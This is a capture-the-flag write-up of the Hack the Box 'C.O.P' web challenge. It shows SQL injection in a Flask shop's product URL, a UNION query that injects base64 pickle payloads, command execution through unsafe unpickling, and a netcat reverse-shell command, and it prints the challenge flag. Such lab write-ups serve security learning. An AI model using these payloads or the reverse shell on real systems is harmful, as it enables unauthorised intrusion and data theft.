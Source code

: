 # Writeup "C.O.P"

## Quick Info

<table>
   <tr><td><b> site       </b></td><td> Hack the Box                                           </td></tr>
   <tr><td><b> url        </b></td><td> https://app.hackthebox.com/challenges/cop              </td></tr>
   <tr><td><b> discussion </b></td><td> https://forum.hackthebox.com/t/official-c-o-p-discussion/264615 </td></tr>
   <tr><td><b> type       </b></td><td> challenge/web                                          </td></tr>
   <tr><td><b> difficulty </b></td><td> easy                                                   </td></tr>
   <tr><td><b> startdate  </b></td><td> 2022-09-28                                             </td></tr>
   <tr><td><b> enddate    </b></td><td> 2022-12-16                                             </td></tr>
</table>

## Description

> The C.O.P (Cult of Pickles) have started up a new web store to sell their merch. We believe that the funds are being used to carry out illicit pickle-based propaganda operations! Investigate the site and try and find a way into their operation!

## Solution

We receive an IP and port to a server and a zip file containing the _Python Flask_ application deployed on the server. According to the `Dockerfile`, the application is deployed in the `/app` directory and the `supervisord.conf` file lists paths to log files. The page displays a basic pickle-themed webshop. Since the application uses the Python package `pickle`, this might be a hint.

<p align="center">
   <img src="includes/cop-01.png" />
</p>

The page does not seem have any fields for user input and no cookies are used. The only place where any parameter can be manipulated is the endpoint for a product detail page, `/view/<product_id>`.

When we inspect the files `routes.py`, `models.py`, and `database.py`, we see that the value of `<product_id>` is used for a _sqlite3_ database query without ever being sanitized! As a test, we try the payload `/view/3';--` and the system displays the page correctly:

<p align="center">
   <img src="includes/cop-02.png" />
</p>

Now to find out how to exploit the vulnerability. As a first step, we try to execute the following SQLite commands using the vulnerability:

```
/view/3';INSERT INTO products (data) VALUES ("gASVgwAAAAAAAACMCF9fbWFpbl9flIwESXRlbZSTlCmBlH2UKIwEbmFtZZSMClRlc3QgVGl0bGWUjAtkZXNjcmlwdGlvbpSMCVRlc3QgRGVzY5SMBWltYWdllIwfL3N0YXRpYy9pbWFnZXMvcGlja2xlX3NoaXJ0LmpwZ5SMBXByaWNllIwDOTk5lHViLg==");--
/view/3';UPDATE products SET data='gASVgwAAAAAAAACMCF9fbWFpbl9flIwESXRlbZSTlCmBlH2UKIwEbmFtZZSMClRlc3QgVGl0bGWUjAtkZXNjcmlwdGlvbpSMCVRlc3QgRGVzY5SMBWltYWdllIwfL3N0YXRpYy9pbWFnZXMvcGlja2xlX3NoaXJ0LmpwZ5SMBXByaWNllIwDOTk5lHViLg==' WHERE id=3;--
```

However, this returns an internal server error. When we run the application locally using docker, we get the following error message in the terminal:

``` bash
sqlite3.Warning: You can only execute one statement at a time.
```

Only one query can be used at a time; query stacking is therefore not possible. We try to use a `UNION` statement instead:

``` sql
http://127.0.0.1:1337/view/1' AND FALSE UNION SELECT data FROM products WHERE id='3';--
```

This works and displys the "Dill Pickle Jar" page instead of the "Pickle Shirt" page.

Now we have to include a payload. Further analysis of the source code shows that the shop's products are stored in the database as pickled objects. When they are retrieved for generating a web page, these pickled objects are unpickled without any security precautions. The unpickling happens using the custom template filter `pickle` defined in `app.py`.

A web search for _"flask pickle vulnerability"_ gives us a web page describing pickeling in Python and why it is vulnerable when improperly used and how to exploit it [^1]. A second page has the source code for a small tool for generating suitable payloads [^2]. Using this tool, we generate a first test payload:

``` bash
> python3 exploit.py "uname -a"
Payload (Base64) => Y3Bvc2l4CnN5c3RlbQpwMAooVnVuYW1lIC1hCnAxCnRwMgpScDMKLg==
```

We adapt our query so that the page receives our payload instead of the product[^4]. As soon as the page unpickles the payload, it will get executed:

``` sql
http://127.0.0.1:1337/view/1' AND FALSE UNION VALUES ("Y3Bvc2l4CnN5c3RlbQpwMAooVnVuYW1lIC1hCnAxCnRwMgpScDMKLg==");--
```

We are successful! In the docker output, we see the output of our command:

<p align="center">
   <img src="includes/cop-03.png" />
</p>

After a lot of experimenting[^3], we find a working combination for a netcat shell. The command executed on the target is:

``` bash
> python3 exploit.py "nc host.docker.internal 1234 -e /bin/sh"
Payload (Base64) => Y3Bvc2l4CnN5c3RlbQpwMAooVm5jIGhvc3QuZG9ja2VyLmludGVybmFsIDEyMzQgLWUgL2Jpbi9zaApwMQp0cDIKUnAzCi4=
```

It is very important to use `host.docker.internal` as the target host for the reverse shell. Furthermore, it was not possible to use `/bin/sh -i` as command since this would always trigger an error on the target machine.

On the host machine, the following command was executed:

``` bash
> nc -l -p 1234
```

This resulted in a working reverse shell:

<p align="center">
   <img src="includes/cop-04.png" />
</p>

However, when trying to replicate this solution on the real system, we soon realize that this solution does not work. Apparently, it is not possible to access external IP addresses from a Docker container.

This setback leads to the realization that a reverse shell had been overkill. Since we can already execute arbitrary shell commands at the target machine, we can just copy the flag to a location where we can access it on the web site.

We create a new payload:

``` bash
> python3 exploit.py "cp /app/flag.txt /app/application/static/flag.txt"
Payload (Base64) => Y3Bvc2l4CnN5c3RlbQpwMAooVmNwIC9hcHAvZmxhZy50eHQgL2FwcC9hcHBsaWNhdGlvbi9zdGF0aWMvZmxhZy50eHQKcDEKdHAyClJwMwou
```

And after calling the vulnerable page once using this payload, we find the flag where we just put it:

<p align="center">
   <img src="includes/cop-05.png" />
</p>

The flag is therefore:

```
HTB{n0_m0re_p1ckl3_pr0paganda_4u}
```

### Sources

[^1]: https://davidhamann.de/2020/04/05/exploiting-python-pickle/
[^2]: https://github.com/shafdo/pickle-payload-gen-python3
[^3]: https://www.varonis.com/blog/netcat-commands
[^4]: https://www.sqlitetutorial.net/sqlite-union/

